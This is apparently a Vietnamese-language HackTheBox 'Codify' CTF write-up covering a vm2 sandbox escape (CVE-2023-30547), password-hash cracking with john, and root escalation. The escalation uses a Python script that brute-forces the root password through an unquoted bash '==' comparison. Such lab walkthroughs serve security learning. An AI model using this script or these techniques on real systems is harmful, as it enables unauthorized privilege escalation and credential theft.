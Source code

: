 
---
layout: post
author: Neo
title: HackTheBox - Codify
date: 2024-03-17
tags:
  - web
  - linux
  - nodejs
  - vm2 library
  - ssh
  - shell script
  - python
  - hackthebox
categories: ctf
---
0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2024-03-17-HTB-Codify/Codify.png)

Codify là một machine mức độ easy dựa trên lỗ hổng của thư viện trong Node.js để thực hiện RCE, cũng như lợi dụng các lỗ hổng trong **bash** để thực hiện leo thang đặc quyền lên `root`

## Reconnaissance and Scanning

```python
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack Apache httpd 2.4.52
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Thêm domain `codify.htb` vào file hosts.

`sudo nano /etc/hosts`

```
127.0.0.1       localhost
127.0.1.1       4nhHT.  4nhHT
10.10.11.239    codify.htb
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## Enumeration

Truy cập web với port 3000. Sau khi kiểm tra một lượt các page của web này, tôi tìm thấy phần có thể khai thác ở đây

![one](/assets/img/2024-03-17-HTB-Codify/1.jpg)

Thử truy cập vào link vm2, tôi được vm2 phiên bản 3.9.16. Tìm kiếm phiên bản này trên internet, tôi tìm thấy [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m). Theo các bước của PoC

![two](/assets/img/2024-03-17-HTB-Codify/2.jpg)

Thử thay thế payload để lấy RCE

![three](/assets/img/2024-03-17-HTB-Codify/3.jpg)

## User Flag

Tìm kiếm xoay quanh các file thư mục trong `/var/www/`, tôi tìm thấy 1 file db

```python
svc@codify:~$ ls -la /var/www/contact
ls -la /var/www/contact
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12  2023 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12  2023 tickets.db
svc@codify:~$ cat /var/www/contact/tickets.db
cat /var/www/contact/tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��     tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ************************
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
svc@codify:~$
```

Tôi có user **joshua** và password hash của user này. Sao chép nó về và crack bằng `john`

```python
┌──(neo㉿4nhHT)-[~/HTB-Codify]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Created directory: /home/neo/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********       (?)
1g 0:00:00:19 DONE (2024-03-24 22:09) 0.05122g/s 73.77p/s 73.77c/s 73.77C/s scotty..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Login SSH bằng user **joshua**

```python
┌──(neo㉿4nhHT)-[~/HTB-Codify]
└─$ ssh joshua@10.10.11.239
The authenticity of host '10.10.11.239 (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.239' (ED25519) to the list of known hosts.
joshua@10.10.11.239's password:
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
joshua@codify:~$ ls
python.py  script.py  user.txt
joshua@codify:~$
```

## Privilege Escalation

`sudo -l`

```python
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
joshua@codify:~$
```

Phân tích file bash này và tìm hiểu thông tin trên internet, tôi tìm thấy lỗ hổng trong việc so sánh DB_PASS và USER_PASS, được gọi là `unquoted variable comparison`, nó liên quan đến 2 dấu bằng `==`.

HIểu đơn giản là trong bash, nếu phía bên phải của dấu `==` không được trích dẫn trực tiếp, bash sẽ thực hiện khớp mẫu thay vì so sánh chuỗi. Trong trường hợp này, chúng ta có thể khớp bất kỳ ký tự nào mà được theo sau bởi một số lượng ký tự nào đó, ví dụ `a******`, `AB*****`

Áp dụng lỗi này, tôi sẽ viết một đoạn mã python đơn giản để kiểm tra mật khẩu, với logic đơn giản là thử từng ký tự một trong chuỗi password và theo sau bởi một số lượng ký tự bất kỳ nào đó. 

```python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] done, root password is: "+password)
```

Tạo 1 file `exploit.py` trên máy codify, sao chép đoạn code trên và lưu để chạy

```python
joshua@codify:~$ nano exploit.py
joshua@codify:~$ python3 exploit.py
[sudo] password for joshua:
[+] new character found: k
[+] new character found: kl
[+] new character found: klj
[+] new character found: kljh
[+] new character found: kljh1
[+] new character found: kljh12
[+] new character found: kljh12k
[+] new character found: kljh12k3
[+] new character found: kljh12k3j
[+] new character found: kljh12k3jh
[+] new character found: kljh12k3jha
[+] new character found: kljh12k3jhas
[+] new character found: kljh12k3jhask
[+] new character found: kljh12k3jhaskj
[+] new character found: kljh12k3jhaskjh
[+] new character found: kljh12k3jhaskjh1
[+] new character found: kljh12k3jhaskjh12
[+] new character found: kljh12k3jhaskjh12k
[+] new character found: *******************
[+] new character found: ********************
[+] new character found: *********************
[+] done, root password is: **********************
joshua@codify:~$
```

Login vào `root`

```python
joshua@codify:~$ su root
Password:
root@codify:/home/joshua# id
uid=0(root) gid=0(root) groups=0(root)
root@codify:/home/joshua# ls /root
root.txt  scripts
root@codify:/home/joshua#
```
